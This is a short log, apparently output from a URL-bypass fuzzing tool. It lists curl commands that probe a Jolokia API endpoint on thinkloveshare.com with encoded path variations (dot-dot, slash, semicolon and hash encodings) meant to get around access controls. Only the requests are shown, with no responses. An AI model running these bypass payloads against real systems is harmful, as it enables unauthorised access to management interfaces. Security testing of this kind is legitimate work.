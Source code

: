 2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%252f%252f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%26//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2e//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2e%2e//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2e%2e///list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2e%2e%2f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f///list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f%20%23//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f%23//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f%2f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f%3b%2f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f%3b%2f%2f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f%3f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%2f%3f///list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b//list'